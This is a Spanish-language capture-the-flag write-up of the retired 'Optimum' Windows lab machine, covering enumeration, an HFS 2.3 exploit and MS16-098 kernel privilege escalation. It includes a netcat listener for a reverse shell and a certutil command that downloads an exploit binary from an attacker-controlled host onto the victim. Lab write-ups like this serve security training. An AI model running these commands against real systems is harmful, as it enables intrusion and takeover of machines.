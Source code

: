 # Optimum

![](./images/optimum.png)

**Índice**   
1. [Overview](#id1)
2. [Enumeración](#id2)
3. [Explotación](#id3)
4. [Escalada de Privilegios](#id4)

#
## 1. Overview<a name="id1"></a>

|OS|Difficulty|Machine State|Vector|Priviledge Escalation|
|-|-|-|-|-|
|Windows|Easy|Retired|HFS|Kernel|


#
## 2. Enumeración<a name="id1"></a>

### 2.1 Nmap

* Se realiza un escaneo con **tcp port syns scan** jugando con el **min-rate** para emitir paquetes no mas lentos que 5000 paquetes por segundo. Durante el escaneo se aprecia que el puerto 80 está abierto, por lo que se utiliza **whatweb** para realizar un primer vistazo a la página.

* Whatweb revela que se trata de servicio HFS 2.3.

* Con searchexploit buscamos algun exploit vulnerable.

Nota: Buscar tanto por HFS como por sus HTTP File Server.

![](./images/hfs.png)

#
## 3. Explotación<a name="id2"></a>

### 3.1 HFS

* Se ejecuta el exploit localizado 39161. Viendo las instrucciones, es necesario compartir un nc.exe mediante un servicio HTTP. 

* El exploit es necesario ejecutarlo minimo 2 veces

```bash
python -m http.server
```

```bash
nc -lvnp
```

![](./images/exploit.png)

* Finalmente, se obtiene una shell como Kostas (usuario local)

#
## 4. Escalada de Privilegios<a name="id2"></a>

* Se realiza una enumeracion inicial con el usuario kostas. En primer lugar, se ejecuta **systeminfo** para saber ante que estamos.

### 4.1 Windows-Exploit-Suggester

* La salida de **systeminfo** se puede incorpora en el scripts **Windows-Exploit-Sugester**.

* Este es un script que permite enumerar de forma rápida y pasiva ante que exploit es vulnerable la máquina.

* La salida revela que la máquina es vulnerable a MS16-098.

![](./images/sugester.png)

### 4.2 MS16-098

* La propia herramienta sumistra el enlace de exploit-db. 

* Para encontrar un ejecutable, se recomienda utiliza el propio repositorio de offensive security, https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits/[num_exploitdb].[ext].

* Una vez descargado se comparte el compilado con 

```bash
python -m http.server
``` 

* Desde la máquina víctima se ejecuta certutil.

```bash
certutil.exe -urlcache -f http://[IP]/[name_src].exe [name_dst].exe
```

https://www.ired.team/offensive-security/defense-evasion/downloading-file-with-certutil

![](./images/elevate.png)
